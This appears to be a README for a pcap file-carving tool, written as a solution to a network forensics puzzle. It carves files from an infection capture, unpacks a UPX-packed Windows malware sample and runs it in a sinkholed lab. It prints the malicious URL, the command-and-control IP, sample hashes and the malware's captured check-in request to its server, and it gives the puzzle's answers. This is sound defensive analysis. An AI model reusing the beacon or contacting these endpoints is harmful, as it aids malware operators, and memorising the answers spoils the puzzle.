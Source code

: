 CastFlow
========

Forensics pcap File Carving.


Description: 

1. q.jar & sdfg.jar
2. ADMINISTRATOR
3. http://nrtjo.eu/true.php
4. 5942ba36cf732097479c51986eee91ed
5. UPX
6. 0f37839f48f7fc77e6d50e14657fb96e
7. 213.155.29.144

Throughout the analysis process, I will work all the time with files extracted from infected.pcap evidence file.

Therefore, first step is extract evidence file contents. We have tons of tools to do this, but I miss some 
portable/modular PCAP File Extraction Framework(maybe this kind of tool exists and I don't know), so I have
tried to make one.

After content extraction, we have this:

	foo-mac:puzzle5 edelfa$ ./castflow.rb -r infected.pcap 
	Forensics pcap File Carving in 'infected.pcap'
	[i] Loading Protocols Carvers modules
	[i] Grouping packets in flows from infected.pcap
		Carvered file.exe file (octet-stream) with 5942ba36cf732097479c51986eee91ed MD5 hash.
		Carvered sdfg.jar file (x-java-archive) with cb0b060aef8cb1b70074ce25e25f5abd MD5 hash.
		Carvered favicon.ico file (html) with ce0b699890509fa13e0b30769a5ca610 MD5 hash.
		Carvered gate.php file (html) with f149dcbc17a40eaa1ebce64d48169cf8 MD5 hash.
		Carvered true.php file (html) with 72af7c4d94974fe7ca006b670d30fe95 MD5 hash.
		Carvered file.exe file (octet-stream) with 5942ba36cf732097479c51986eee91ed MD5 hash.
		Carvered q.jar file (x-java-archive) with ee55192bd3237e8f10565b1d0605af2e MD5 hash.
		Carvered a7f4f9d34b2e56e6f4e279b07466ad44.x509-Certificate file (x509-Certificate) with a7f4f9d34b2e56e6f4e279b07466ad44 MD5 hash.
		Carvered 901436e235a81e2ac977ff04b582e518.x509-Certificate file (x509-Certificate) with 901436e235a81e2ac977ff04b582e518 MD5 hash.
		Carvered 1f1804ae8a54aab57f746237a6c121c1.x509-Certificate file (x509-Certificate) with 1f1804ae8a54aab57f746237a6c121c1 MD5 hash.

At this point, question one is answered: q.jar and sdfg.jar

	foo-mac:FilesCarvered on Sat May 15 02:39:13 +0200 2010 edelfa$ file *.*x-java-archive
	q.jar.x-java-archive:    Zip archive data, at least v2.0 to extract
	sdfg.jar.x-java-archive: Zip archive data, at least v1.0 to extract

We also can see two windows executables:

	foo-mac:FilesCarvered on Sat May 15 02:39:13 +0200 2010 edelfa$ file file*.*stream
	file.exe(2).octet-stream: MS-DOS executable PE  for MS Windows (GUI) Intel 80386 32-bit, UPX compressed
	file.exe.octet-stream:    MS-DOS executable PE  for MS Windows (GUI) Intel 80386 32-bit, UPX compressed

Both of them seems to be the same file, and we can see that they are packet with UPX packet.

	foo-mac:FilesCarvered on Sat May 15 02:39:13 +0200 2010 edelfa$ upx -d -o file_decompressed.exe file.exe.octet-stream 
        	               Ultimate Packer for eXecutables
        	                  Copyright (C) 1996 - 2008
	UPX 3.03        Markus Oberhumer, Laszlo Molnar & John Reiser   Apr 27th 2008

		        File size         Ratio      Format      Name
		   --------------------   ------   -----------   -----------
		     82432 <-     68096   82.61%    win32/pe     file_decompressed.exe
		
		Unpacked 1 file.
		
	foo-mac:FilesCarvered on Sat May 15 02:39:13 +0200 2010 edelfa$ file file_decompressed.exe 
		file_decompressed.exe: MS-DOS executable PE  for MS Windows (GUI) Intel 80386 32-bit

	foo-mac:FilesCarvered on Sat May 15 02:39:13 +0200 2010 edelfa$ md5 file_decompressed.exe 
		MD5 (file_decompressed.exe) = 0f37839f48f7fc77e6d50e14657fb96e

At this point, questions 4, 5 and 6 are answered:

	Packed file MD5 hash: 5942ba36cf732097479c51986eee91ed
	Packer: UPX
	Unpacked file MD5 hash: 0f37839f48f7fc77e6d50e14657fb96e

As to the infection starting point (URL), analizing infected.pcap file with Wireshark tool, we can see that, the first HTTP request with 59.53.91.102 as IP destination address is asking for /true.php resource and into previous frames to this HTTP request, we have one DNS query/response pair that resolves this address as nrtjo.eu, so this incident start by clicking on http://nrtjo.eu/true.php link, so this is the answer to the question 3.

Questions 2 and 7 has a similar resolution, and at this point seems clear that the infected system username is ADMINISTRATOR and hard-coded IP address is 213.155.29.144, but I will try to prove it.

For these data, first I launch a sniffer in one hand, and malware piece in the other hand.
We can see that it has tried to resolve freeways.in domain with no answer, and has tried to connect with 213.155.29.144 address on 444 service, with no answer again.

We are on track. Now with some funny cheats, we will try that this time "he" be able to resolve freeways.in domain, and connect to this IP address (or at least that he believe that does both).

	We need to take this steps.
		1.- Setup our network connection with 127.0.0.1 as DNS server.
		2.- ADD new IP address to our network interface (before: 192.168.2.13, After: 192.168.2.13 and 213.155.29.144 "multiple IP address").
		3.- Add new route: route ADD 213.155.29.144 MASK 255.255.255.255 192.168.2.13
		4.- Launch FakeDNS
		5.- Launch netcat to listen on 80 and 444 local ports (nc.exe -l -p 80 and nc.exe -l -p 444)
		6.- Launc WinDump.exe -w somefilename.pcap
		7.- Launc file.exe (from cleaned system)

And finally, we receive our desired HTTP request, and our hard-coded connection too.
GET /11111/gate.php?guid=MRMONEYFEW!ED-PUZZLE5-LAB!DC11E3C&ver=1008&stat=ONLINE&ie=6.0.3790.395&os=5.2.3790&ut=Admin&cpu=17&ccrc=5A4F4DF7&MD5=0f37839f48f7fc77e6d50e14657fb96e

MRMONEYFEW is my username on the lab system, so ADMINISTRATOR is the username on Ms MoneyMany system.

And we have received one connection to 444 port without DNS usage, so again, 213.155.29.144 is the hard-coded IP address.

Ops! Now we have all questions answered.
